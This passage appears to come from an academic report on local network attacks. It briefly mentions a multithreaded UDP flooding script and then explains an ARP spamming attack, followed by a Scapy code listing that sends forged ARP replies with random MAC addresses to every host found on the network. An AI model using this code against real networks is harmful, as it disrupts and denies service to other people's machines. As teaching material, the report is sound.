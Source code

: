 Figure~\ref{ref:UdpFloodingFigure} above is a section of code from the UDP flooding attack script. As mentioned previously around 10 threads will run the code at the same time in an attempt to maximise the throughput of UDP packets. The effects of the attack are visible on the targets end and causes a visual degradation in the connection speed.

\subsubsection{ARP Spamming}
This attack works by once again exploiting the lack of authentication of the ARP protocol. In the entire network mode the script starts by detecting all active hosts on a network, it then starts sending out falsified ARP reply packets with randomly generated MAC addresses inside. This results in all computers on the networking having incorrect ARP cache values and resulting in computers incorrectly resolving IP and MAC address combinations and traffic not being allowed through.

\begin{Code}{ARP Spamming}
def start(self):
   while self.running:
        
       # Talks to every machine and changes the ARP value
       # The list of hosts is obtained by an NMAP scan
       for host_dst in self.active_hosts:
           count = 0

           for host_src in self.active_hosts:
           if host_dst != host_src:
                 
           # Send the ARP packet - rnd_mac_addresses() creates
           # a fully random  MAC address
           self.send_arp_packet(host_dst, 
                                host_src, 
                                self.rnd_mac_addresses[count])
                                         
           count += 1



def send_arp_packet(self, dst, src, mac, op_code=2):
        
    # Construction of the ARP Packet
    pkt = ARP(op=2, 
              pdst=dst, 
              psrc=src, 
              hwdst="ff:ff:ff:ff:ff:ff", 
              hwsrc=mac)

    send(pkt, verbose=0)
					
\end{Code}
\begin{figure}[h]
	\caption{Code from the ArpSpamming.py script}
	\label{fig:ArpSpammingCode}
\end{figure}


